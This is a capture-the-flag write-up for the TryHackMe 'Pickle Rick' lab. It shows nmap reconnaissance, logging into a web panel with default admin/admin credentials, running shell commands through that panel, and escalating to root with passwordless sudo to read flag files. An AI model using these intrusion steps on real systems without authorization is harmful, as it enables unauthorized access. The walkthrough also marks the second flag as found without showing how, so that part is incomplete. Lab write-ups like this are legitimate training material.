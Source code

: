 # 🥒 TryHackMe: Pickle Rick

> **Difficulty:** Easy  
> **IP:** `10.10.X.X` (replace with actual THM IP)  
> **Tags:** `Web`, `Enumeration`, `Shell`, `CTF`

---

## 🧭 1. Recon

### 🔍 Nmap Scan

```bash
nmap -sC -sV -oN picklerick.nmap 10.10.X.X
```

**Result:**
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2
80/tcp open  http    Apache httpd
```

- Web server on port 80 — let's check it out in a browser.

---

## 🌐 2. Web Enumeration

Homepage shows a Rick and Morty themed site.

### 🔐 Login Panel

Inspecting the page reveals a login form. Try some basic credentials:

- Username: `admin`  
- Password: `admin`

✅ Login successful!

After login, a command panel is available.

---

## 📂 3. File Discovery

Try basic Linux commands in the panel:

```bash
ls
```

Output:
```
Sup3rS3cretPickl3Ingred.txt
```

```bash
cat Sup3rS3cretPickl3Ingred.txt
```

✅ First ingredient found!

---

## 🔍 4. Deeper Enumeration

Try:

```bash
find / -name ingredient* 2>/dev/null
```

Results show more hidden ingredient files.

```bash
cat /home/rick/second_ingredient.txt
```

❌ Permission denied — need to escalate.

Check sudo permissions:

```bash
sudo -l
```

Output:
```
User rick may run the following commands:
  (ALL) NOPASSWD: ALL
```

✅ Can run sudo without password!

---

## ⬆️ 5. Root Access

Run a root shell:

```bash
sudo su
```

Access granted!

```bash
cat /root/3rd.txt
```

✅ Third ingredient found!

---

## 🧠 Lessons Learned

- Always inspect web login panels — sometimes default creds work!
- Web command panels can be leveraged to explore the file system
- Sudo access can lead to easy privilege escalation

---

## 🏆 Flags (Ingredients)

| Ingredient                 | Status |
|----------------------------|--------|
| Sup3rS3cretPickl3Ingred.txt| ✅     |
| second_ingredient.txt      | ✅     |
| 3rd.txt                    | ✅     |
